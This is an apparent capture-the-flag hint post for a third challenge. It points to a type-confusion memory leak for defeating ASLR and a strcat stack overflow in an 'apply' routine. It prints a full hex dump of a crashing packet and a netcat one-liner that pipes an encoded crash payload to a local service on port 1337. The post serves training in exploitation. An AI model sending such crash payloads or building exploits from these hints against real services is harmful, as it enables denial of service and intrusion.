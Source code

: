 ```yaml
---
title: 'Part 3: Hints [small + big hints]'
author: ron
categories:
- hints
layout: post
date: '2023-05-11T16:03:37-07:00'
permalink: "/part3-hints"
featured: true

---
```


These are hints for the third challenge. Use at your own discretion!

<!--more-->

## Vulnerability types

You actually need to find two vulnerabilities:

1. Memory leak (to bypass ASLR)
2. Stack overflow (to execute code)

## Memory leak

There is a memory leak due to type confusion.

If you send a string where the service expects an integer, what happens? Is
there somewhere that displays the integer value back (like, say, in an error
message)?

That would be a great place to store strings (like an argument to `popen`)!

## Stack overflow

Do you see any dangerous functions being used in `apply`? Like, say, `strcat`
or similar?

### DoS Message

Here's a packet that will crash `apply`:

```
0000009B  00 00 00 02 6a f5 00 d9  00 00 04 25 00 00 00 06   ....j... ...%....
000000AB  00 00 00 01 00 00 12 34  00 00 00 02 00 00 43 21   .......4 ......C!
000000BB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000CB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000DB  00 00 00 00 00 00 00 66  41 41 41 41 41 41 41 41   .......f AAAAAAAA
000000EB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000000FB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000010B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000011B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000012B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000013B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000014B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000015B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000016B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000017B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000018B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000019B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000001AB  00 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   .BBBBBBB BBBBBBBB
000001BB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001CB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001DB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001EB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001FB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000020B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000021B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000022B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000023B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000024B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000025B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000026B  42 42 42 42 42 42 42 42  42 00 43 43 43 43 43 43   BBBBBBBB B.CCCCCC
0000027B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000028B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000029B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002AB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002BB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002CB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002DB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002EB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002FB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000030B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000031B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000032B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000033B  43 43 00 44 44 44 44 44  44 44 44 44 44 44 44 44   CC.DDDDD DDDDDDDD
0000034B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000035B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000036B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000037B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000038B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000039B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003AB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003BB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003CB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003DB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003EB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003FB  44 44 44 44 44 44 44 44  44 44 44 00 45 45 45 45   DDDDDDDD DDD.EEEE
0000040B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000041B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000042B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000043B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000044B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000045B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000046B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000047B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000048B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000049B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004AB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004BB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004CB  45 45 45 45 00                                     EEEE.
```

### Full DoS PoC

Here's how you can crash it with Netcat.. this is long, so I'm using bzip2
and base64 to encode it:

```
$ echo -ne 'QlpoOTFBWSZTWUzPK1AAAAt9p/0AECEiAn/iPgAnFEAoAAksAAAgAAICACAAdBkkDUekP1RpptGpiB6ho9BkoBM0TCYAJgBo0oYHSi4PiqvwbAR0H6vlkEBaRFBAShAKkJQ+MKoAROmZPK/C8f4DqYDEwKCM7I5va7YGupr7NG1ffgs8lABYU9FInCx6I/QfNLfsqZOVVVZS1F3JFOFCQTM8rUA=' | base64 -d | bunzip2 | nc -v localhost 1337
```

This is obviously somewhat spoilery, so use at your own descretion!

## Encryption

The response to `OPCODE_APPLY` basically encrypts your application send sends
it back. You need to figure out the encryption type and key! You should be
able to find calls to `EVP_EncryptInit_ex`, then work backwards from there.

## Doing something useful

The stack is overflowed with *encrypted* data. That means you need to *decrypt*
your payload first!
